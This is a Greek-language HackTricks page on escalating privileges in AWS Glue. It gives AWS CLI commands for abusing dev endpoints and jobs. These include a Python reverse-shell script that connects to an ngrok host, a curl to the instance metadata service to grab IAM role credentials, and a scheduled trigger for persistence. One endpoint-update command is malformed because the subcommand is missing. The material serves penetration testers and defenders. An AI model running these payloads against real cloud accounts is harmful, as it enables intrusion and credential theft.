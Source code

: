 # AWS - Ανέβασμα Προνομίων Glue

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν να **δημιουργήσουν ένα νέο σημείο ανάπτυξης AWS Glue**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας** με συγκεκριμένες άδειες σε αυτό το σημείο.

Μετά την εγκατάσταση, ο **επιτιθέμενος μπορεί να συνδεθεί μέσω SSH στην περίπτωση του σημείου** και να κλέψει τα διαπιστευτήρια IAM του ανατεθειμένου ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για λόγους αόρατης εισβολής, συνιστάται να χρησιμοποιείτε τα διαπιστευτήρια IAM από μέσα στην εικονική μηχανή Glue.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον καθορισμένο ρόλο της υπηρεσίας Glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτήν την άδεια μπορούν να **τροποποιήσουν ένα υπάρχον ανάπτυξης Glue** τερματικού SSH, **ενεργοποιώντας την πρόσβαση SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελέσει εντολές με τα προνόμια του ρόλου που είναι συνδεδεμένος με το τερματικό.
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο υπηρεσίας του Glue.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Οι χρήστες με το δικαίωμα **`iam:PassRole`** σε συνδυασμό με το **`glue:CreateJob` ή `glue:UpdateJob`**, και είτε το **`glue:StartJobRun` είτε το `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν ένα AWS Glue job**, συνδέοντας οποιονδήποτε λογαριασμό υπηρεσίας Glue και να ξεκινήσουν την εκτέλεση της δουλειάς. Οι δυνατότητες της δουλειάς περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, τον οποίο μπορεί να εκμεταλλευτεί κάποιος για να δημιουργήσει ένα αντίστροφο κέλυφος. Αυτό το αντίστροφο κέλυφος μπορεί στη συνέχεια να χρησιμοποιηθεί για να αποκτηθούν τα διαπιστευτήρια **IAM** του ρόλου που είναι συνδεδεμένος με τη δουλειά του Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες βάσει των δικαιωμάτων αυτού του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο της υπηρεσίας glue που έχει καθοριστεί.

### `glue:UpdateJob`

Μόνο με την άδεια ενημέρωσης, ένας επιτιθέμενος μπορεί να κλέψει τα διαπιστευτήρια IAM του ήδη συνδεδεμένου ρόλου.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο της υπηρεσίας glue που έχει συνδεθεί.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
